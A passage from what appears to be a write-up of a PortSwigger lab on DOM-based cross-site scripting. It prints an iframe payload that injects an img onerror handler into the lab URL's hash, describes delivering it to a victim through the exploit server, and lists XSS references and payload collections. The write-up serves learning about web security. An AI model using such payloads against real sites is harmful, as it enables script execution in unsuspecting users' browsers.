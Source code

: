 ```html
<iframe src="https://LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

When we `store` the iFrame in the exploit server body and `deliver exploit to victim`, the `print()` function is triggered in the victim/admin's browser and the lab is marked complete 🙂

## Resources
- [OWASP: XSS Types](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)
- [Portswigger DOM Vulnerabilities](https://portswigger.net/web-security/dom-based)
- [PortSwigger DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
- [PortSwigger XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [PayloadsAllTheThings: XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [PayloadBox: XSS](https://github.com/payloadbox/xss-payload-list)
- [HackTricks: XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)

